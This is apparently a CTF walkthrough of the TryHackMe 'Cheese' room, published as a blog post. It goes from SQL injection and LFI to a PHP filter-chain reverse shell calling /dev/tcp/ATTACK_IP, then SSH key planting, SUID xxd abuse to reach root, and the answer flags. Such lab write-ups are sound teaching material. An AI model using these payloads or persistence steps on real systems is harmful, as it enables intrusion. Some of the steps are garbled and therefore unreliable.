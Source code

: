 ```yaml
---
title: 'TryHackMe: Cheese CTF'
author: Neo-Virex
date: 2025-02-13 08:00:00 +0000
categories: [TryHackMe, CTF, Walkthrough]
tags: [Cheese, CTF, HackTheBox, Linux, Exploit]
render_with_liquid: false
media_subpath: /images/tryhackme/tryhackme_cheese_ctf/
image:
  path: room_img.png
description: A detailed walkthrough of the Cheese CTF challenge, covering reconnaissance, enumeration, exploitation, and privilege escalation.
---
```




**Challenge completed:** February 21, 2025 @ 13:20 (+03:00)

## Reconnaissance

All ports were open, but the most critical services were on ports **22** (SSH) and **81** (HTTP).

```bash
rustscan -a 10.10.26.46
```

```
Open 10.10.26.46:1 3 4 5 6 8 9 10 11 13 14 16 17 18 20 22 23 24 28 30 31 32 33 38 41 42 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 74 75 76 79 81 84
```

## Service Enumeration

Brute‑forcing directories with **feroxbuster** revealed key endpoints:

```bash
feroxbuster -u http://10.10.26.46/ -w /usr/share/wordlists/dirb/big.txt
```

```
200  /images/cheese1.jpg
200  /style.css
200  /images/cheese2.jpg
200  /images/cheese3.jpg
200  /login.php
```

## Web Application Analysis

![Login Page](img1.png){: width="600" height="150" .shadow }
![Directory Listing](img2.png){: width="600" height="150" .shadow }

The login form was vulnerable to **SQL injection**. Bypassing authentication with:

```sql
username: ' OR 1=1;-- -
password: anything
```

granted a shell on the web server.

## Exploit & Initial Access

Accessing `/secret-script.php?file=../../../etc/passwd` confirmed a Local File Inclusion (LFI):

```http
GET /secret-script.php?file=../../../etc/passwd HTTP/1.1
Host: 10.10.26.46
```

> Snippet from `/etc/passwd`:
>
> ```text
> root:x:0:0:root:/root:/bin/bash
> ```

daemon\:x:1:1\:daemon:/usr/sbin:/usr/sbin/nologin
...

> ```
> ```
![Directory Listing](img3.png){: width="600" height="150" .shadow }


## Privilege Escalation

A PHP filter chain exploit was generated via [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) and the [php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator):

```bash
python3 php_filter_chain_generator.py \
  --chain '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/ATTACK_IP/8084 0>&1\'"); ?>' \
  | grep "php" > payload.txt
```

A listener was started:

```bash
nc -lvnp 8084
```

The payload was URL‑encoded and sent:

```bash
curl -o response.txt "http://10.10.26.46/secret-script.php?file=$(tail -n1 payload.txt)"
```

This yielded a `www-data` shell:

```bash
www-data@cheesectf:/var/www/html$ ls
adminpanel.css images index.html login.css login.php messages.html orders.html secret-script.php style.css supersecretadminpanel.html supersecretmessageforadmin users.html
```

## SSH Pivot & User Flag

The attacker’s public key was added to `/home/comte/.ssh/authorized_keys`:

```bash
echo "ssh-ed25519 AAAAC... neo@lab" >> /home/comte/.ssh/authorized_keys
```

SSH’ing as **comte**:

```bash
ssh -i ~/.ssh/id_ed25519 comte@10.10.177.192
cat user.txt  # THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}
```

## Lateral Movement & Final Escalation

`comte` had passwordless sudo rights on the `exploit.timer` systemd unit:

```bash
sudo systemctl daemon-reload
enable exploit.timer
start exploit.timer
```

`exploit.service` copies `/usr/bin/xxd` to `/opt/xxd` with SUID:

```ini
# /etc/systemd/system/exploit.service
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && chmod +sx /opt/xxd"
```

By editing the writable timer (`/etc/systemd/system/exploit.timer`) and reloading:

```ini
[Timer]
OnBootSec=5s
```

`xxd` was leveraged to write an SSH key into root’s `authorized_keys`:

```bash
echo 'ssh-ed25519 AAAA... kali@kali' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```

SSH to **root** and capture root flag:

```bash
ssh -i ~/.ssh/id_ed25519 root@10.10.177.192
cat root.txt  # THM{dca75486094810807faf4b7b0a929b11e5e0167c}
```

---

### Flags

* **User:** `THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`
* **Root:** `THM{dca75486094810807faf4b7b0a929b11e5e0167c}`
